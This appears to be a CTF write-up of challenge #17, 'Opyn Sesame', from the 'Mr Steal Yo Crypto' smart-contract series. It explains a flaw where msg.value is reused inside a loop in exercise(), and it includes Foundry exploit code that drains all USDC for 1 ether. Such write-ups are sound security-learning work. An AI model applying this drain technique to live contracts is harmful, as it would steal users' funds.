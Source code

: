 ```yaml
---
title: "Mr Steal Yo Crypto — Opyn Sesame"
date: 2023-07-22
draft: false
description: "CTF - 17"
tags: ["CTF"]
series: ["CTF"]
series_order: 17
topics: ["CTF"]
showAuthor: false
showAuthorsBadges : false
---
```


This is the #17 challenge of [Mr Steal Yo Crypto](https://mrstealyocrypto.xyz/index.html). I will try to explain how to find the vulnerability.

> A set of challenges to learn offensive security of smart contracts. Featuring interesting challenges loosely (or directly) inspired by real world exploits.

Created by [@0xToshii](https://twitter.com/0xToshii).

I used the foundry version for this CTF: [mr-steal-yo-crypto-ctf-foundry](https://github.com/0xToshii/mr-steal-yo-crypto-ctf-foundry/tree/implement).

![Mr Steal Yo Crypto](https://cdn-images-1.medium.com/freeze/max/800/1*67w9ffBxLP4AMvoxHowZ2w.jpeg)

## Opyn Sesame

There’s an OptionsContract which allows users to issue ETH-USDC put options. It represents the premium for a given series of options as an ERC20 token, allowing for AMM pricing and liquidity.

So far 5 users have used the contract and sold put options.

Your task is to take all the USDC from the contract.

- [See the contracts](https://github.com/0xToshii/mr-steal-yo-crypto-ctf-foundry/tree/implement/src/opyn-sesame)
- [Complete the challenge](https://github.com/0xToshii/mr-steal-yo-crypto-ctf-foundry/blob/implement/test/17-opyn-sesame.sol)

## Review of the contracts

### OptionsContract.sol

It implements the logic of OptionLogic.sol and adds a function for creating a vault, sends USDC as collateral, sells the freshly minted oTokens to the market contract. This function is used by users who want to issue ETH-USDC put options. Nothing interesting for the moment.

### OptionsMarket.sol

The only function callable by us is `purchase()`. With this function, we are able to buy `n` amount of oTokens for `n * price` of USDC (the `setPrice` is defined by the owner). Nothing interesting for the moment.

### Test file and OptionLogic.sol

This time, I tried something new. We want to take all the USDC from the contract. I decided to do the reverse method. Start from where USDC is transferred to the user and go back to the original function that the user called. The function where we transfer USDC to the user is `transferCollateral()`, let’s start our research.

The function is used in `redeemVaultBalance()`, if we want `collateralToTransfer` very high. We need `vault.collateral` also high. The only time where `vault.collateral` is updated (increasing) is in `addERC20Collateral()`. However, before we can set `vault.collateral` as a high value, we need to send a big amount of USDC before. To conclude, this is not possible.

The function `transferCollateral()` is also called in `_exercice()`.

To make it quicker, before getting some USDC, we need to burn some oTokens and send enough ether for passing the requirement at [L299](https://github.com/0xToshii/mr-steal-yo-crypto-ctf-foundry/blob/implement/src/opyn-sesame/OptionsLogic.sol).

`_exercice()` is called in `exercice()` and WAIT! `_exercice()` is called inside a loop. It means it’s the same vulnerability as challenge #16!?

## The Vulnerability

The contract has a vulnerability similar to the one in challenge #16 — Extractoor. If we have a function that is payable, makes a loop, and has `msg.value`, there is a vulnerability.

## Exploit the vulnerability

This is certainly the same type of exploit as challenge #16 — Extractoor.

If we are able to loop with the same `msg.value` through `exercise()`, then we can drain the USDC one more time:

1. Buy as much oTokens as we can (5e18). Is 5e18 enough? Yes, because every vault has only 1e18 oTokens.
2. Call `exercise()` and exercise the option on all current vaults. As we are in a loop inside `exercise()`, the `msg.value` at [L299](https://github.com/0xToshii/mr-steal-yo-crypto-ctf-foundry/blob/implement/src/opyn-sesame/OptionsLogic.sol) will always be the amount of value that we are sending.
3. We are able to exercise options without paying the execution with ether (we bypass [L299](https://github.com/0xToshii/mr-steal-yo-crypto-ctf-foundry/blob/implement/src/opyn-sesame/OptionsLogic.sol)). That’s how we are able to take all the USDC.

Here is a quick solution:

```solidity
// solves the challenge
function testChallengeExploit() public {
    vm.startPrank(attacker, attacker);

    // implement solution here
    usdc.approve(address(optionsMarket), 500e18);

    // Buy oTokens as much as we can
    optionsMarket.purchase(5e18);

    console.log("amount of oTokens for vault_1:", optionsContract.maxOTokensIssuable(2_000e18));
    // Each vault has 1e18 oTokens and we bought 5e18 oTokens, we are good

    uint256 value = optionsContract.underlyingRequiredToExercise(1e18);
    // For 1e18 oTokens exercise, we need to send 1 ether

    value = optionsContract.underlyingRequiredToExercise(5e18);
    console.log("amount of ether that we need to send:", value);
    // For 5e18 oTokens exercise, we need to send 5 ether

    // However, `exercise()` uses a loop for exercising the 5e18 oTokens (1e18 per vault), so we can send only 1 ether
    // With only 1 ether, we will exercise 5e18 oTokens and thus get all the USDC
    optionsContract.exercise{value: 1 ether}(5e18, addresses);

    vm.stopPrank();
    validation();
}
```

You can check my test file [here](https://github.com/gp-ngmi/mr-steal-yo-crypto-ctf-foundry/blob/implement/test/17

-opyn-sesame.sol).

Honestly, I was lucky for this challenge. If I didn’t do the challenge #16, I don’t think that I would have found a solution so "easily". I can add that I didn’t deep dive into the oTokens logic around their price and how I’m able to “bypass” the `_burn`.

## Acknowledgement

Thank you [https://stermi.xyz/](https://stermi.xyz/) for inspiring me to write articles on CTF ^^.
